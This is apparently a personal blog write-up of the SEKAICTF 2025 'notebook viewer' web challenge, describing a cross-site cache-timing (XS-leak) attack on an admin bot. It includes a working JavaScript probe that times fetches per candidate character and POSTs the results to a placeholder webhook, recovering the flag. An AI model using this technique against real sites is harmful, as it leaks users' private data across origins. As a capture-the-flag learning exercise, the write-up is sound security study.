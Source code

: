 ```yaml
---
title: SEKAICTF 2025 - Writeups
date: 2025-08-16 20:37:30 
categories: [Write-ups, SEKAICTF2025]
tags: [web]     
description: cache probing + xsleaks
---
```


This CTF is memorable, cause it's the first time i first blooded a web chall in a big ctf. Here is the detailed write-up for this:

## notebook viewer (346 points, 1st solve)
![2](/commons/ctfs/sekaiCTF2025/2.png)

The source code is nothing too much, just classic admin-bot challenges, but we have a new thing: `shadow DOM` which i just read about it last week by masato: [https://speakerdeck.com/masatokinugawa/shadow-dom-and-security-exploring-the-boundary-between-light-and-shadow](https://speakerdeck.com/masatokinugawa/shadow-dom-and-security-exploring-the-boundary-between-light-and-shadow)

I guess some of you trying to break the shadow DOM, but i think its impossible cause if you notice on the `adminbot.js`:

```js
...
    await page1.goto(`${SITE}/?note=${encodeURIComponent(FLAG)}`, {
        waitUntil: "networkidle2"
    });

    let page2 = await browser.newPage();

    await page2.goto(url);

    await new Promise((res) => setTimeout(res, 15000));

    await browser.close();
    browser = null;
...
```
`page1` and `page2` means that the flag page and our page is in separate process, like a different tab, and there is no way to comeback the flag page (`window.history.go(-1)`,... is unusable here). But an idea just came up to my head instantly after look at these line 

![1](/commons/ctfs/sekaiCTF2025/1.png)

The upper is when i pass `/?note=hsw109`, it happens cause in index.html
```js
...
    const uri = new URL(location.href);
    const note = uri.searchParams.get('note') || 'my secret notes';

    function srcFor(i, code) {
      return `https://nbv-${i}-${code}.chals.sekai.team/`;
    }

    for (let i = 0; i < note.length; i++) {
      const code = note.codePointAt(i);
      const frame = document.createElement('iframe');
      frame.scrolling = 'no';
      frame.src = srcFor(i, code);
      wrap.appendChild(frame);
    }
...
```
You can see that each character of our passed note, there are an URL for this. And also if you notice a key part of my solution is in bot.js

![3](/commons/ctfs/sekaiCTF2025/3.png)

While doing this, i think that if the bot visited the flag page -> it also visited all the specific `https://nbv-${i}-${code}.chals.sekai.team/` URL corresponding to the flag .So i guess that with this option, its kinda faster if we load the URL same as flag URL -> brute force all of them, also setup a timer to compare all of them -> the fastest is the flag character we want, then i ask ChatGPT about that idea (ofc):

![5](/commons/ctfs/sekaiCTF2025/5.png)

Then i turn out that is the cache-timing probe attack (funny that i just read it in xsleaks and havent do it before). To be honest, while doing this i still assume that the bot option helps to "delete" the DNS resolution time for that URL (like the comment said :P). So eventually, me (and ChatGPT) create a small script to solve this, yep after some fixes it works well:

```html
<!doctype html>
<meta charset="utf-8">
<title>nbv first char timing</title>
<pre id="log">init…</pre>
<script>
const i = 0; 
const CHARS = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz!#$%&()*+,-./:;<=>?@[\]^_`{|}~'";
const codes = [...new Set([...CHARS].map(c => c.charCodeAt(0)))];

async function tFetch(u){
  const t0 = performance.now();
  try { await fetch(u, {mode: "no-cors", cache: "force-cache"}); } catch(e) {}
  return performance.now() - t0;
}

(async () => {
  const timings = [];
  for (const code of codes) {
    const url = `https://nbv-${i}-${code}.chals.sekai.team/`;
    const t1 = await tFetch(url);
    const t = t1;
    const guess = String.fromCharCode(code);
    timings.push({ guess, t });
  }
  timings.sort((a,b)=>a.t - b.t);
  const best = timings[0];
  const post = (obj) => {
    const blob = new Blob([JSON.stringify(obj)], {type:"application/json"});
    fetch("<webhook>", {method:"POST", mode:"no-cors", body: blob});
  };
  post({kind:"calibration", timings});
})();
</script>
```
Put it as response for your webhook (personally i used requestrepo), then add another webhook to capture the output, here is what i got when getting first index `i=0`
![6](/commons/ctfs/sekaiCTF2025/9.png)

yeah the gap between the right and wrong one is ~1ms (incredibly but its still the right one "S"), what about the next one?

`i=1`

![8](/commons/ctfs/sekaiCTF2025/8.png)

yeah its definitely our flag yayyyy!!! If you continue, you can get the full flag, but careful if sometime our right char we're guessing is in the first index of the charset, it can cause all of our delta T have the same, then you need to move that charset backward to your charset. I dont have VPS and too lazy to setup API to requestrepo, so i do this by hand. Finally we got the flag:

> SEKAI{Pr*<3$5-1SolAT10n_X5l34K5_fTW}

Thank you guys for reading!

